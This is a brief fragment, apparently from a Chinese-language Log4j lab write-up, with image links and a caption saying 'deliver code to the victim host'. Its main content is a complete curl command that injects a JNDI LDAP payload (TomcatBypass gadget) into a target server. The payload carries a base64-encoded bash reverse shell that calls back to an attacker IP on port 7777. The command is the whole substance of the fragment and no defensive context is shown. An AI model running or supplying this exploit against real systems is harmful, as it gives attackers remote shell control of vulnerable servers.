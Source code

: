 ![Alt text](img/7777.png)

![Alt text](img/java.png)

向受害者主机投放代码：`curl http://192.168.219.6:28048/hello -d 'payload=${jndi:ldap://192.168.166.3:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.166.3/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'`
